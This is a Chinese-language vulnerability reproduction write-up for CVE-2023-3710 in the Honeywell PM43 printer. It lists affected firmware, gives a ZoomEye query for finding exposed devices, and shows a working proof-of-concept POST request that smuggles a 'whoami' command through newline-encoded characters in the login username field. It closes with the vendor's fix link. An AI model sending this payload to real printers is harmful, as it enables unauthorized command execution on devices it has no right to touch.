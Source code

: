 
# Honeywell PM43 loadfile.lp RCE漏洞复现(CVE-2023-3710）

### 0x01 产品简介

 Honeywell PM43 是美国霍尼韦尔（Honeywell）公司的一款打印机产品。

### 0x02 漏洞概述

  Honeywell PM43 P10.19.050004之前版本存在输入验证错误漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 影响范围

Honeywell Pm43\_Firmware < p10.19.050004

### 0x04 复现环境

钟馗之眼：app:"Honeywell PM43"

### ![](assets/1701826215-977e9d67f6b659923a56765a680ab34f.png)0x05 漏洞复现 

PoC

```cobol
POST /loadfile.lp?pageid=Configure HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded

username=h%0Awhoami%0A&userpassword=pass&login=Login
```

### ![](assets/1701826215-cd20921c279ec068f01bc46e8ba922a4.png) 0x06 修复建议

 厂商已发布了漏洞修复程序，请及时关注更新：https://hsmftp.honeywell.com:443/en/Software/Printers/Industrial/PM23-PM23c-PM43-PM43c/Current/Firmware/firmwaresignedP1019050004

